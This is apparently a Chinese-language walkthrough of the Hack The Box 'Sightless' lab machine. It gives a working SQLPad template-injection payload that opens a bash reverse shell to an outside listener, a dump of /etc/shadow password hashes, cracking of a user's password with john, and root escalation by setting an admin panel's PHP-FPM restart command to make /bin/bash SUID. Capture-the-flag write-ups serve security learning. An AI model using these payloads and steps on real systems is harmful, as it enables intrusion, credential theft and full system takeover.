









## Sightless
### 本靶机不寻常的事情：
#### 1.SQLPad 应用程序在 Sightlight 上以哪个系统用户身份运行？root
#### 2.横行提权不需要漏洞，利用了管理员功能去做不安全操作
#### 3.后半部分按照官方文档行不通，通过burpsuite拦截转发的端口，注入的漏洞是行不通的，其次不需要通过FTP连接下载或上传另外漏洞，，，可耽误我不少天，但这靶机是真简单，我并不生气，学到了很多，就看靶机的操作怎么作，，，

### 1.namp
```
[★]$ nmap -sC -sV 10.129.231.103
Nmap scan report for sightless.htb (10.129.231.103)
Host is up (0.010s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.231.103]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Sightless.htb
```
#### 加入域名访问浏览器

#### 点击SQLPad

#### 发现了版本，搜索版本漏洞：CVE-2022-0944
#### https://nvd.nist.gov/vuln/detail/CVE-2022-0944
### 2.
#### 漏洞的使用：https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb
```
$ nc -lvnp 4455
```
#### 首先开启监听，需要2条命令才有回应

在浏览器Database发送：
```
{{ process.mainModule.require('child_process').exec('echo "#!/bin/bash\nbash -i
>& /dev/tcp/10.10.14.21/4455 0>&1" > /tmp/exploit.sh') }}
```
```
{{ process.mainModule.require('child_process').exec('/bin/bash /tmp/exploit.sh')
}}
```
```
[★]$ nc -lvnp 4455
listening on [any] 4455 ...
connect to [10.10.14.71] from (UNKNOWN) [10.129.243.28] 56304
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad# whoami | id
whoami | id
uid=0(root) gid=0(root) groups=0(root)
root@c184118df0a6:/var/lib/sqlpad# ls -la
ls -la
total 200
drwxr-xr-x 4 root root   4096 Sep  3 13:40 .
drwxr-xr-x 1 root root   4096 Mar 12  2022 ..
drwxr-xr-x 2 root root   4096 Aug  9  2024 cache
drwxr-xr-x 2 root root   4096 Aug  9  2024 sessions
-rw-r--r-- 1 root root 188416 Sep  3 13:40 sqlpad.sqlite
```
### 3./etc/passwd与/etc/shadow合并成密码，工具是john unshadow
```
root@c184118df0a6:/var/lib/sqlpad# cat /etc/shadow
cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
<SNIP>
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
root@c184118df0a6:/var/lib/sqlpad#

root@c184118df0a6:/var/lib/sqlpad# cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
<SNIP>
node:x:1000:1000::/home/node:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```
```
root@c184118df0a6:/var/lib/sqlpad# grep '^michael:' /etc/passwd > passwd_michael
<lpad# grep '^michael:' /etc/passwd > passwd_michael
root@c184118df0a6:/var/lib/sqlpad# grep '^michael:' /etc/shadow > shadow_michael
<lpad# grep '^michael:' /etc/shadow > shadow_michael

root@c184118df0a6:/var/lib/sqlpad# ls -la
ls -la
total 208
drwxr-xr-x 4 root root   4096 Sep  3 13:53 .
drwxr-xr-x 1 root root   4096 Mar 12  2022 ..
drwxr-xr-x 2 root root   4096 Aug  9  2024 cache
-rw-r--r-- 1 root root     45 Sep  3 13:52 passwd_michael
drwxr-xr-x 2 root root   4096 Aug  9  2024 sessions
-rw-r--r-- 1 root root    134 Sep  3 13:53 shadow_michael
-rw-r--r-- 1 root root 188416 Sep  3 13:50 sqlpad.sqlite

root@c184118df0a6:/var/lib/sqlpad# cat passwd_michael
cat passwd_michael
michael:x:1001:1001::/home/michael:/bin/bash
root@c184118df0a6:/var/lib/sqlpad# cat shadow_michael
cat shadow_michael
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```
#### 将合并Passwd_michael和shadow_michael，从 passwd 文件拿到用户名和 UID 等信息；从 shadow 文件拿到用户名和密码哈希。(手动从反向连接复制 粘贴到本地终端)
```
[★]$ vi passwd_michael
┌─[us-dedivip-1]─[10.10.14.71]─[syareya55@htb-tpkybyu0pr]─[~/Sightless]
└──╼ [★]$ vi shadow_michael
┌─[us-dedivip-1]─[10.10.14.71]─[syareya55@htb-tpkybyu0pr]─[~/Sightless]
└──╼ [★]$ cat passwd_michael shadow_michael
michael:x:1001:1001::/home/michael:/bin/bash
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```
#### 它们的合并需要用到john unshadow
```
[★]$ sudo apt install john -y
[★]$ cp /usr/share/wordlists/rockyou.txt.gz .
[★]$ gunzip rockyou.txt.gz
[★]$ unshadow passwd_michael shadow_michael > michael_unshadowed
Created directory: /home/syareya55/.john
[★]$ ls
michael_unshadowed  passwd_michael  rockyou.txt  shadow_michael
[★]$ cat michael_unshadowed
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:1001:1001::/home/michael:/bin/bash

[★]$ john --wordlist=rockyou.txt michael_unshadowed
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
insaneclownposse (michael)     
1g 0:00:00:08 DONE (2025-09-03 09:26) 0.1146g/s 6752p/s 6752c/s 6752C/s kruimel..bluedolphin
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
#### 密码为insaneclownposse
### 4.ssh登录
```
[★]$ ssh michael@10.129.243.28
The authenticity of host '10.129.243.28 (10.129.243.28)' can't be established.
ED25519 key fingerprint is SHA256:L+MjNuOUpEDeXYX6Ucy5RCzbINIjBx2qhJQKjYrExig.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.243.28' (ED25519) to the list of known hosts.
michael@10.129.243.28's password: 
Last login: Tue Sep  3 11:52:02 2024 from 10.10.14.23

michael@sightless:~$ id
uid=1000(michael) gid=1000(michael) groups=1000(michael)
michael@sightless:~$ cat user.txt
```
### 4.1 检查系统上存在的开放端口
```
michael@sightless:~$ ss -lntp
State   Recv-Q   Send-Q     Local Address:Port      Peer Address:Port  Process  
LISTEN  0        5              127.0.0.1:45217          0.0.0.0:*              
LISTEN  0        511              0.0.0.0:80             0.0.0.0:*              
LISTEN  0        128              0.0.0.0:22             0.0.0.0:*              
LISTEN  0        70             127.0.0.1:33060          0.0.0.0:*              
LISTEN  0        4096       127.0.0.53%lo:53             0.0.0.0:*              
LISTEN  0        4096           127.0.0.1:3000           0.0.0.0:*              
LISTEN  0        151            127.0.0.1:3306           0.0.0.0:*              
LISTEN  0        10             127.0.0.1:40337          0.0.0.0:*              
LISTEN  0        511            127.0.0.1:8080           0.0.0.0:*              
LISTEN  0        4096           127.0.0.1:40805          0.0.0.0:*              
LISTEN  0        128                    *:21                   *:*              
LISTEN  0        128                 [::]:22                [::]:*
```
```
本地只监听的端口（127.0.0.1）——重点关注
本地端口	备注
3000	常见 web 应用或管理面板，HTTP/Node.js 服务可能用
40337	这个端口特别值得注意，可能是端口转发
40805	也可能是某个内部服务或后门程序
45217	高位本地端口，可能是某个后台服务、临时监听或后门
```
### 5.1 第一次转口转发
```
[★]$ ssh michael@sightless.htb -L 40337:127.0.0.1:40337
michael@sightless.htb's password: 
Last login: Fri Sep  5 05:22:19 2025 from 10.10.14.80
michael@sightless:~$
```
#### 在终端输入chromium，跳出了浏览器，输入：chrome://inspect

#### 在Configure：127.0.0.1:40337
#### 请加入子域名admin.sightless.htb在/etc/hosts
#### 在http://admin.sightless.htb下面,点击inspect->在Network->index.php->Payloa->用户密码

### 5.2 第二次转口转发
```
[★]$ ssh michael@sightless.htb -L 10.10.14.80:8081:127.0.0.1:8080
michael@sightless.htb's password: 
Last login: Fri Sep  5 06:39:59 2025 from 10.10.14.80
michael@sightless:~$
```
#### 使用浏览器Firefox登录10.10.14.80:8081（本机IP+端口)
##### 这里不需要用户web1,去连接FTP；[ *:21    21端口开放连接反倒连接不上】
```
1.利用 Froxlor 的管理员功能 修改 PHP-FPM restart 命令
2.重启 PHP-FPM → 执行 chmod 4755 /bin/bash
3.SUID 权限使 /bin/bash 可以被普通用户提升为 root
4.bash -p 激活 SUID 权限，获得 root
```
### 步骤1（用户admin)
#### PHP-->PHP_FPM versions-->Ceate

#### [1]Short description → pwned //标记
#### [2]php-fpm restart command → chmod 4755 /bin/bash  //PHP-FPM 重启命令
#### 把 /bin/bash 设置成 SUID root (4 表示 SUID)，意味着普通用户执行 /bin/bash -p 可以获得 root 权限
#### [3]Process manager control (pm) → dynamic //允许 PHP-FPM 动态管理子进程，确保重启命令生效
#### [4]Save
```
michael@sightless:~$ stat /bin/bash
  File: /bin/bash
  Size: 1396520   	Blocks: 2728       IO Block: 4096   regular file
Device: fd00h/64768d	Inode: 700         Links: 1
Access: (0755/-rwxr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2025-09-04 15:48:56.379999437 +0000
Modify: 2024-03-14 11:31:47.000000000 +0000
Change: 2024-08-09 11:17:02.286877914 +0000
 Birth: 2024-05-15 03:23:31.234885684 +0000
```
#### 权限是0755
### 步骤2（用户admin)
#### System-->PHP-FPM

#### php-fpm enable/disable 关了,Save,再开，Save

```
michael@sightless:~$ stat /bin/bash
```


```
michael@sightless:~$ bash -p
bash-5.1# id
uid=1000(michael) gid=1000(michael) euid=0(root) groups=1000(michael)

bash-5.1# ls -al
total 28
drwxr-x--- 3 michael michael 4096 Jul 31  2024 .
drwxr-xr-x 4 root    root    4096 May 15  2024 ..
lrwxrwxrwx 1 root    root       9 May 21  2024 .bash_history -> /dev/null
-rw-r--r-- 1 michael michael  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 michael michael 3771 Jan  6  2022 .bashrc
-rw-r--r-- 1 michael michael  807 Jan  6  2022 .profile
drwx------ 2 michael michael 4096 May 15  2024 .ssh
-rw-r----- 1 root    michael   33 Sep  4 15:50 user.txt

bash-5.1# cat /root/root.txt
4af9c062be0b320a316c87fe16c0f7f6

```
